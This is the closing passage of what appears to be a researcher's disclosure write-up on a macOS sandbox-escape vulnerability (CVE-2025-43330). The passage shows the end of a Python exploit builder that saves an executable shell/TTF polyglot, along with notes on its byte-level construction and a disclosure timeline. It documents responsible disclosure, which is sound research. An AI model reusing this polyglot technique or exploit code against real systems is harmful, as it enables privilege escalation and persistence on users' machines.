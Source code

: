 ```python
        print(f"\n[*] exploit result: {'SUCCESS' if exploit_successful else 'FAILED'}")

        if exploit_successful:
            success_file = "/tmp/working_exploit.ttf"
            with open(success_file, "wb") as f:
                f.write(polyglot)
            os.chmod(success_file, 0o755)
            print(f"    Working exploit saved: {success_file}")

        if os.path.exists(temp_file):
            os.unlink(temp_file)

        return exploit_successful

    except Exception as e:
        print(f"    exploit creation failed: {e}")
        return False

if __name__ == "__main__":
    phase_5()
```

![phase-5](/phase-5.png)

i really wanted this exploit to be tight and efficient, so i tried my best to exercise precise byte-level control for the exact 100-byte boundary (for the shell portion). this prevents the script from overflowing into the TTF section and messing everything up. 

the rest of the script is fairly self-explanatory, as it mostly recycles the previous phases. the test results prove that: the shell interpreter successfully executed the polyglot, the font processor accepted the polyglot as a valid TTG, and the file remained executable after font processing (persistence).

## conclusions

i submitted this issue to Apple Security Research, and was issued CVE-2025-43330 for it. to me, it represented a fundamental architectural vulnerability in macOS's security model. unlike traditional memory corruption configurations, this exploit targeted the exemption of a binary from sandbox inheritance.

polyglots are fun to play with because they clearly show that content/signature-based file validation is flawed, especially when they process data outside security boundaries. trusted binaries can quickly become conduits for privilege escalation.

## disclosure timeline

{{< timeline >}}

{{< timeline_item
    title="initial report submitted to Apple Security Research"
    period="may 26th, 2025"
     >}}
{{< /timeline_item >}}
